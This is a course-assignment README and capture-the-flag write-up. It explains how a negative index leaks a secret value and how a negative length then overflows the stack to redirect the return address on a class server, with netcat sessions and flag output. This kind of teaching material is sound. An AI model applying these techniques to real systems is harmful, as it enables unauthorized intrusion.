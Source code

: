 # Buffer Overflow Attack in Simulation

This project will introduce you to control-flow hijacking vulnerabilities in application software, including buffer overflows.
* Be able to identify and avoid buffer overflow vulnerabilities in native code.
* Understand the severity of buffer overflows and the necessity of standard defenses.
* Gain familiarity with machine architecture and assembly language.

> **NOTCIE:** This repository is the assignment in NCTU course "Network Security 2018". If you are taking this course, please do not duplicate from this repository. All rights reserved.

---
## Description

This project will introduce you to control-flow hijacking vulnerabilities in application software, including buffer overflows. We have provided source code, binary executable, and the assembly code. Try to find vulnerability in these files and exploit it to get the secret flag. There are two flags: `flag1` & `flag2`. If you get `flag1`, you will score 100, `flag2` is just the bonus flag. Have fun!

---
## Solutions

1. Before starting, we should try to use the serve and observe vulnerabilities
    ```
    # Connect to the server 140.113.194.66:8787
    $ nc 140.113.194.66 8787
    ----------------------
            NS
    ----------------------
    1. View info
    2. Edit info
    3. Exit
    ----------------------
    Your choice:
    ```
    * In the program `proj3.c`, the main function will call function `func`.
        * In the function `func`, the variable `ret_addr` will store the return address of its function. This could be a key point to attack this program.
        * In the function `func`, we can see there is a switch-case a while loop and the third of case is going to compare `ret_addr` with variables `magic1` and `magic2` to decide which function to return.
    * Observe with the program `proj3.asm`.
        * The variable `ret_addr` in the `proj3.c` is store at `ebp-0x88` (line 688).
        * Above the declaration of `ret_addr` in the `proj3.c`, there is a variable `secret` with struct type `SEC`, which size is 32 bytes due to the operation system is 32-bits in the memory stack.
        * To explain the above mentioned, the struct of `SEC` include an array `info` with 32 elements which is 32 Bytes. After converting to hexadecimal-based, the size will become `0x20` which is mapped to `ebp-0x64` (line 702).
        * After the array info in the struct `SEC`, there is a 4 bytes unsigned long variable called `secret` which is a random number. The only way to change the content of `secret` is in the while loop which is in the function func.
    * In the program `proj3.c`, the function `edit_note` with a pointer `s`  as parameter which type `STU` is a struct includes variable `name` (16 bytes), `note` (16 bytes), `stuid` (16 bytes), and `age` (4 bytes). The total sizes are 44 bytes.
        * In the program `proj3.asm`, we can observe that the memory stack pushes 88 bytes for two persons `s` started from `ebp-0x60`.
2. Start to attack by using buffer overflow
    * By using buffer overflow to attack the server, we need to find out the input place that can let us input some payload to make the returned address be wrong (e.g., we want to get the content of the variable `magic1`, so that we need to return to `magic1`’s address).
    * In the program `proj3.c`, the function `menu` is the place to input some payload.
        * After connecting to the server, we can choose `2` to enter the mode of edit info. Then, the server will ask to enter the `secret` and there exists a severe problem.
            ```
            # Connect to the server 140.113.194.66:8787
            $ nc 140.113.194.66 8787
            ----------------------
                    NS
            ----------------------
            1. View info
            2. Edit info
            3. Exit
            ----------------------
            Your choice: 2
            Please input secret first:
            ```
        * The problem is that the value of integer in C can be positive or negative value. By entering a negative value, we can get the content outside the array’s index.
        * The more important thing is that the `secret` is stored behind the array `s[0]`. So that we can get the content of `secret` by entering `-1` as id in the mode of view info.
            ```
            # Connect to the server 140.113.194.66:8787
            $ nc 140.113.194.66 8787
            ----------------------
                    NS
            ----------------------
            1. View info
            2. Edit info
            3. Exit 
            ----------------------
            Your choice: 1
            Please input id: -1
            Name: 1

            Note:
            Age: 2928863094
            ----------------------
                    NS
            ----------------------
            1. View info
            2. Edit info
            3. Exit
            ----------------------
            Your choice:
            ```
        * The value shows after age is the `secret`’s value (`2928863094`) because the address of `secret` is `ebp-0x60`. which is the top 4 bytes before `s[0]` from above 44 bytes. Notice that the `secret`’s value is a random number.
3. Enter into the edited mode
    * After entering into the edited mode, we can enter the `secret`’s value (`2928863094`) and choose one user arbitrarily.

        ```
        # Connect to the server 140.113.194.66:8787
        $ nc 140.113.194.66 8787
        ----------------------
                NS
        ----------------------
        1. View info
        2. Edit info
        3. Exit
        ----------------------
        Your choice: 1
        Please input id: -1
        Name: 1

        Note:
        Age: 2928863094
        ----------------------
                NS
        ----------------------
        1. View info
        2. Edit info
        3. Exit
        ----------------------
        Your choice: 2
        Please input secret first: 2928863094
        Please input id: 1
        Input new note length:
        ```

    * In the program `proj3.c`, we found that we still cannot get the returned address we want if we only enter a positive integer less than 16 (line 124). Therefore, we enter `-1` because `-1` is a largest number in 2-based complement system so that we can trace back to the top of address in memory stack.
    * After entering `-1`, we are at the address of `note` in the struct `STU`. In that there is a variable name (16 bytes) before note, we can get the address of `note` from `s[0]` be `ebp-0x50`. Thus, we need to push 84 bytes ($5 \times 16 + 4 = 84$) to get the returned address.
4. Get the `flag1`
    * Finally, we found that `magic1` will cover the original address at `080489e0` so that we can get the `flag1` after choose `3` to exit. Notice that the address need to be written in format of little endian.
    ![](https://i.imgur.com/PDDjfHZ.png)

---
## File Description

* `proj3.c` - The program of server on `140.113.194.66:8787`
* `proj3.asm` - The assembly program of `proj3.c`
* `proj3.py` - The program using buffer overflow to attack
* `flag1.txt` - The content of `flag1`

---
## Execution

1. Execute the `main.py`
    ```bash
    # Make sure your current directory is in "src/"
    $ python proj3.py
    ```
    * If succeed, you will see the following result
        ```bash
        [+] Opening connection to 140.113.194.66 on port 8787: Done
        2928863094
        FLAG{G00D_J0b!}
        [*] Closed connection to 140.113.194.66 port 8787
        ```
2. Show the true plaintext
    ```bash
    # Make sure your current directory is in "out/"
    $ cat flag1.txt
    FLAG{G00D_J0b!}
    ```

---
## Contributor

> **NOTICE:** You can follow the contributing process [CONTRIBUTING.md](CONTRIBUTING.md) to join me. I am very welcome any issue!

* [David Lu](https://github.com/yungshenglu)

---
## License

> **NOTCIE:** This repository is the assignment in NCTU course "Network Security 2018". If you are taking this course, please do not duplicate from this repository. All rights reserved.

[GNU GENERAL PUBLIC LICENSE Version 3](LICENSE)
